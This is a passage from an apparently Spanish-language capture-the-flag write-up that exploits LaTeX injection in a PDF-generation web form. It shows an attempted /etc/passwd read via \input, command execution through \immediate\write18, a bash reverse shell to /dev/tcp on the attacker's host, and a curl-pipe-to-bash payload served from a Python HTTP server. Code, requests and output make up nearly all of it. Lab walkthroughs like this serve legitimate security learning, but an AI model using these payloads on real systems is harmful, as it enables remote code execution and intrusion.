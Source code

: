 ```null
2023/06/15 14:15:59 Finished
==============================================================
```

Dentro de ```/pdf``` puedo ver los archivos generados. La única plantilla que funciona para compilarlos es ```test2```. Pruebo a cargar el ```/etc/passwd```

```null
content=\input{/etc/passwd}&template=test2
```

Pero este comando está bloqueado

```null
HTTP/1.1 200 OK
Date: Thu, 15 Jun 2023 14:17:31 GMT
Server: Apache/2.4.34 (Ubuntu)
Content-Length: 25
Connection: close
Content-Type: text/html; charset=UTF-8

BLACKLISTED commands used
```

Sin embargo, puedo ejecutar comandos directamente

```null
content=\immediate\write18{ping -c 1 10.10.16.6 > /dev/null}&template=test2
```

Recibo la traza en mi equipo

```null
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
14:19:39.376521 IP 10.10.10.120 > 10.10.16.6: ICMP echo request, id 8757, seq 1, length 64
14:19:39.376549 IP 10.10.16.6 > 10.10.10.120: ICMP echo reply, id 8757, seq 1, length 64
```

Creo un archivo ```index.html``` que se encargue de enviarme una reverse shell

```null
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.16.6/443 0>&1'
```

Lo comparto con un servicio HTTP con python e interpreto

```null
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.120 - - [15/Jun/2023 14:21:33] "GET / HTTP/1.1" 200 -
```

```null
content=\immediate\write18{curl 10.10.16.6 | bash > /dev/null}&template=test2
```
